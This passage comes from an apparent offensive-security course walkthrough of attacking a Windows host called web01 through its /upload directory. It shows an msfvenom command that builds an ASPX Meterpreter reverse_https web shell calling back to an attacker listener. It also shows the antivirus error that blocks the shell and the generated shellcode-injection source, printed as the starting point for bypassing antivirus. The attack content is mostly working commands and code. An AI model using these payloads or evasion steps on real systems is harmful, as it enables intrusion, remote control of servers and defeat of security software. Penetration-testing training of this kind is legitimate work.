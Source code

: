 > Listing 6 - Gobuster results against web01

Our enumeration only returned the custom /upload subdirectory. When we browse to /upload/test.aspx, we receive a blank page, likely indicating that our code is running.

The attack from here is relatively straightforward. We can simply generate an aspx web shell with msfvenom that contains a Meterpreter reverse shell, upload it through the application, and browse to it under upload. This should trigger execution and grant us a reverse shell.

```
kali@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f aspx -o /home/kali/met.aspx
...
Payload size: 691 bytes
Final size of aspx file: 4584 bytes
Saved as: /home/kali/met.aspx
```

> Listing 7 - ASPX web shell is generated with msfvenom

Next, we'll set up a Metasploit _multi/handler_, upload our shell as met.aspx, and attempt to browse to it.

```
Server Error in '/Upload' Application.
Could not load file or assembly 'file:///C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\upload\4fd4a6be\2a870af3\App_Web_met.aspx.cdcab7d2.e86ytam7.dll' or one of its dependencies. Operation did not complete successfully because the file contains a virus or potentially unwanted software. (Exception from HRESULT: 0x800700E1)
Description: An unhandled exception occurred during the execution of the current web request. Please review the stack trace for more information about the error and where it originated in the code.
...
```

> Listing 8 - Antivirus has deleted the web shell

However, we don't receive a shell, and the browser displays the error message shown in Listing 8. This clearly indicates the presence of antivirus software that's flagging our web shell.

Windows servers commonly run some form of antivirus, unlike most Linux servers.

Our next step is to attempt to bypass the antivirus protection using the skills we discussed in this course. To begin, we'll open met.aspx in an attempt to determine why it's flagging.

```
<%@ Page Language="C#" AutoEventWireup="true" %>
<%@ Import Namespace="System.IO" %>
<script runat="server">
    private static Int32 MEM_COMMIT=0x1000;
    private static IntPtr PAGE_EXECUTE_READWRITE=(IntPtr)0x40;

    [System.Runtime.InteropServices.DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr,UIntPtr size,Int32 flAllocationType,IntPtr flProtect);

    [System.Runtime.InteropServices.DllImport("kernel32")]
    private static extern IntPtr CreateThread(IntPtr lpThreadAttributes,UIntPtr dwStackSize,IntPtr lpStartAddress,IntPtr param,Int32 dwCreationFlags,ref IntPtr lpThreadId);

    protected void Page_Load(object sender, EventArgs e)
    {
        byte[] vL8fwOy_ = new byte[691] { 0xfc,0x48,0x83,0xe4,0xf0,... };

        IntPtr uPR9CPj_b7 = VirtualAlloc(IntPtr.Zero,(UIntPtr)vL8fwOy_.Length,MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        System.Runtime.InteropServices.Marshal.Copy(vL8fwOy_,0,uPR9CPj_b7,vL8fwOy_.Length);
        IntPtr graLqi = IntPtr.Zero;
        IntPtr vn4FD0Agd = CreateThread(IntPtr.Zero,UIntPtr.Zero,uPR9CPj_b7,IntPtr.Zero,0,ref graLqi);
```